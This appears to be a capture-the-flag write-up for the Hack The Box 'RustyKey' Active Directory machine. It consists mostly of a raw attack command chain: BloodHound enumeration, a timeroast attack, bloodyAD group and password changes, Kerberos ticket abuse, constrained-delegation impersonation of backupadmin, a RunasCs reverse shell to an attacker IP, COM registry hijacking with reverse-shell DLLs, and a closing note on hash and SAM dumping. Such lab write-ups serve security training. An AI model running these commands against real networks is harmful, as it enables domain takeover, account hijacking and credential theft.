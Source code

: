

![RustyKey](https://github.com/user-attachments/assets/3220ba58-c1c1-4014-939a-a5755dcfc88d)



#Nmap scans Results 


![scans](https://github.com/user-attachments/assets/5bfe0c03-afd4-4937-bf3e-0ed7b56eb5f5)


edit /etc/krb5.conf


![rusty](https://github.com/user-attachments/assets/b2295c57-e507-4614-8ec8-5e8aae80737f)


#use the creds you've got 
bloodhound-python -u $user -p $pass -c All -o bloodhound_$user.json -d rustykey.htb -ns 10.10.11.75 --zip -k

#start a timeroast attack using nxc

nxc smb IP  -M timeroast

![Screenshot_2025-06-30_13_47_47](https://github.com/user-attachments/assets/c89dc679-e224-4575-9c4c-eaf2c7547f28)

#now time for exploit chain 

bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k add groupMember HELPDESK 'IT-COMPUTER3$'
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password BB.MORGAN 'P@ssword123'
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'

impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:P@ssword123'
export KRB5CCNAME=BB.MORGAN.ccache
evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB

bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!'set password bb.morgan 'pa$$w0rd'

bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'Password123!'

.\RunasCs.exe ee.reed Password123! cmd.exe -r 10.10.14.31:9001
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Tools\rev.dll" /f
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Tools\rev.dll" /f
Powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
#exploitation chain 
![Screenshot_2025-06-30_17_54_46](https://github.com/user-attachments/assets/3b42da26-4cf9-4b79-aa00-231d84a05300)

impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.129.65.227 -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Tools\shell.dll" /f

![Screenshot 2025-07-08 at 06-11-35 Hack The Box Hack The Box](https://github.com/user-attachments/assets/9a1ce703-d7f2-4c9b-8bec-6f867f3eaf0d)


NTLM hashes , system , sam dump , secretdump 

